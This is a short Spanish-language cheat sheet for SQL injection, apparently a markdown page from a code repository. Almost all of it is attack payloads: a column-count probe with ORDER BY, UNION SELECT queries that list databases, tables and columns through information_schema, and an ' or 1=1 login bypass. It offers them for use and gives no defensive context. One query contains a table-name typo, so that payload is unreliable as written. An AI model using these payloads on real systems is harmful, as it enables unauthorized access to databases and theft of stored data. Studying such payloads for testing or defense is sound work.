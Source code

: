# SQL Injection

Ver numero de columnas

```
' ORDER BY 1 -- -
```

Introducir informacion una vez sabemos el numero de columnas que hay

```
' union select 1,2-- -
' union select schema_name from information_schema.schemata limit 0,1 -- - 
  //listar todas las bases de datos existentes {con limit van mostrando las bases de datos 0,1 1º 1,1 2º y asi sucesivamente}
' union select group_concat(schema_name) from information_schema.schemata -- - 
  // listar todas las bases de datos en una linea
' union select group_concat(table_name) from information_schema.tables where table_schema='table'-- - 
// ver tablas de la base de datos
' union select group_concat(column_name) from information_schema.column where table_schema='table' and table_name='table' limit 0,1-- -
// ver columnas de la tabla
```

Validar en un formulario

```
' or 1=1-- -
```
